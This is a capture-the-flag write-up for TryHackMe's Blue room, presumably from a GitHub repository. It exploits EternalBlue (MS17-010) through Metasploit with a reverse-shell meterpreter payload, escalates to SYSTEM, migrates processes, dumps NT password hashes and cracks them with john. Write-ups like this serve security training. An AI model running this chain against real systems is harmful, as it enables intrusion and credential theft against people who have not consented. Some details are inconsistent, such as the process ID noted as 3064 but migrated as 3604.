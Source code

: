 # Write Up for the Blue Room
https://tryhackme.com/room/blue

# Task 1
 1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the room RP: Nmap)
 2. How many ports are open with a port number under 1000?
 
'nmap -sC -sV 10.10.104.20': 3

 3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
 
'nmap --script=vuln 10.10.104.20': ms17_010

# Task 2
 1. Start Metasploit
 
'msfconsole'

 2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
 
'search ms17_010': exploit/windows/smb/ms17_010_eternalblue
'use exploit/windows/smb/ms17_010_eternalblue'
I've read that there's issues with the default payloads in meterpreter at the time of writing this, so I set that manually.
'set PAYLOAD windows/x64/meterpreter/reverse_tcp'

 3. Show options and set the one required value. What is the name of this value? (All caps for submission)
 
'options': RHOSTS
Now, I set RHOSTS to the target IP address with 'set RHOSTS 10.10.104.20

4. Run the exploit!
 
First, since I'm on VPN I need to use 'set LHOST tun0', then, 'exploit'. It failed once and was successful on the second try for me.

# Task 3

 1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
 
First ctrl+z, then 'search shell_to_meterpreter': post/multi/manage/shell_to_meterpreter

2. Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)
 
'use post/multi/manage/shell_to_meterpreter' then 'options': SESSION

3. Set the required option, you may need to list all of the sessions to find your target here.
 
'sessions' lists our sessions and their IDs, now 'set SESSION 1'

4. Run! If this doesn't work, try completing the exploit from the previous task once more.
 
'exploit'

5. Once the meterpreter shell conversion completes, select that session for use.
 
'sessions -i 1'

6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 
 
'getsystem', 'shell', 'whoami'

7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
 
ctrl+z, 'y', then 'ps'. I am going to use 3064 for the TrustedInstaller.exe.

8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.
 
'migrate 3604' worked!

# Task 4

1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?
 
'hashdump': Jon

2. Copy this password hash to a file and research how to crack it. What is the cracked password?
 
I copied the whole hash line starting with jon and ending in ::: then paste that into a file I just named hash.
In a seperate terminal I ran 'john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash'
This gave me the password I needed! There is another way to do it from within metasploit, but I did not have my database setup prior to this.

# Task 5

I took to long getting the right syntax for so I had to reexploit the machine, but coming back in I was stil nt\system
I typed 'cd /' and then 'cat flag1.txt' for the first flag.
I then navigated to /Users/Jon/Documents just to peek AND! found flag 3.
Now where is flag2? The hint is supposed to point us to where windows stores its passwords.
With some googling 'cd /windows/system32/config' and there's flag 2!
